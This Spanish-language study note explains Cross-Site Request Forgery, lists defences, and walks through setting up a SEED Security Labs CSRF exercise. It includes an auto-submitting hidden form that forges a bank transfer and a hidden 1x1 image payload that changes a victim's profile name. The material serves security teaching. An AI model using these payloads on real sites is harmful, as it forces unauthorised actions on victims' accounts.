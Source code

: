 # Cross-Site Request Forgery (CSRF)

## ¿Qué es CSRF?

El **Cross-Site Request Forgery (CSRF)** es una vulnerabilidad en la que un atacante engaña a un usuario legítimo para que realice una **acción no deseada** en una aplicación web donde ya está autenticado.  
El ataque aprovecha que el navegador del usuario **automáticamente envía las cookies** de sesión a la aplicación web, sin que el usuario se dé cuenta.

## ¿Cómo ocurre?

1. El usuario está autenticado en una web (por ejemplo, su banco en línea).
    
2. Sin cerrar sesión, el usuario visita un sitio web malicioso.
    
3. El sitio malicioso **envía una solicitud HTTP** al sitio legítimo utilizando la sesión activa del usuario.
    
4. Como el navegador incluye automáticamente las cookies, el sitio legítimo procesa la solicitud **como si fuera legítima**.
    

## Ejemplo realista

Un atacante crea una página maliciosa que fuerza a un usuario autenticado a realizar una **transferencia bancaria** sin su consentimiento.

```html
<!-- Página maliciosa -->
<html>
  <body>
    <h1>¡Oferta exclusiva! ¡Haz clic aquí!</h1>
    <form action="https://banco-victima.com/transferir" method="POST">
      <input type="hidden" name="destinatario" value="cuenta-atacante">
      <input type="hidden" name="cantidad" value="1000">
      <input type="submit" value="Gana un premio">
    </form>

    <script>
      document.forms[0].submit(); // Envía automáticamente el formulario
    </script>
  </body>
</html>
```

> Si el usuario está autenticado en `banco-victima.com`, al visitar esta página, se enviará una transferencia de **1000 unidades** a la cuenta del atacante **sin que el usuario se entere**.

## ¿Qué acciones podría forzar un atacante?

- Transferir dinero
    
- Cambiar el correo electrónico o contraseña
    
- Eliminar cuentas o datos importantes
    
- Escalar privilegios o dar permisos a un atacante
    

## ¿Cómo prevenir CSRF?

- **Tokens CSRF**: Incluir un **token aleatorio y único** en cada formulario y solicitud. El servidor valida que este token sea correcto.
    
- **Cabeceras personalizadas**: Usar cabeceras que el navegador no envía automáticamente, para que el atacante no pueda replicarlas.
    
- **SameSite Cookies**: Configurar las cookies de sesión con la propiedad `SameSite=Strict` o `SameSite=Lax` para limitar el envío de cookies a solicitudes del mismo origen.
    
- **Verificación de origen**: Revisar la cabecera `Origin` o `Referer` para confirmar que la solicitud viene del sitio legítimo.
    

---
# Secuencia del ataque

Vamos a desglosar paso a paso como sería un ataque de *CSRF*

## Paso 1 - Despliegue del laboratorio

[Laboratorio CSRF:](https://seedsecuritylabs.org/Labs_20.04/Files/Web_CSRF_Elgg/Labsetup.zip)


Acción: 

```Shell
wget https://seedsecuritylabs.org/Labs_20.04/Files/Web_CSRF_Elgg/Labsetup.zip
unzip Labsetup.zip
rm !$
cd Labsetup
docker-compose up -d
```

Resultado: 

```Shell
attacker  docker-compose.yml  image_attacker  image_mysql  image_www
```

Explicación:  descargamos a nuestra máquina local este laboratorio, descomprimimos y accedemos a la carpeta descargada para iniciar el [[iCloudDrive/iCloud~md~obsidian/Git/Setting_Github/Documento Hacker/Gestores de contenido (CMS)/WordPress/Docker|Docker]] 

## Paso 2 -

Acción: 

```Shell
nvim /etc/hosts
```

Resultado:

```lua
# Host addresses
127.0.0.1  localhost
127.0.1.1  parrot
::1        localhost ip6-localhost ip6-loopback
ff02::1    ip6-allnodes
ff02::2    ip6-allrouters
# Others

# Docker

10.9.0.5  www.seed-server.com
10.9.0.5  www.example32.com
10.9.0.105  www.attacker32.com
```

Explicación:  añadimos al `/etc/hosts` los dominios asociados al contenedor

**Nota:** tenemos por defecto estas dos credenciales:

```txt
alice:seedalice
samy:seedsamy
```

## Paso 3 -

Acción: en BurpSuite, pasamos la solicitud de POST a GET, y teniendo en cuenta el identificador de usuario (en este caso alice es el 56) escribimos este mensaje en un campo que interpreta html y lo que hacemos es que se crea una imagen (que añadimos algunos valores de altura y ancho con width y height), de esta forma alice al entrar al mensaje no vera nada raro pero estará tramitando el cambio de nombre de usuario

```txt
<img src="http://www.seed.server.com/action/profile/edit?name=Hacked&description=&accesslevel%5bdescription%5d=2&briefdescription=&accesslevel%5bbriefdescription%5d=2&location=&accesslevel%5blocation%5d=2&interests=&accesslevel%5binterests%5d=2&skills=&accesslevel%5bskills%5d=2&contactemail=&accesslevel%5bcontactemail%5d=2&phone=&accesslevel%5bphone%5d=2&mobile=&accesslevel%5bmobile%5d=2&website=&accesslevel%5bwebsite%5d=2&twitter=&accesslevel%5btwitter%5d=2&guid=56" alt="image" width="1" height="1"/>
```

Explicación:  con este payload a través de [Burp Suite](../../Herramientas/Burp%20Suite) podemos realizar la acción maliciosa de hacer que el usuario que recibe este mensaje modifique su nombre de usuario.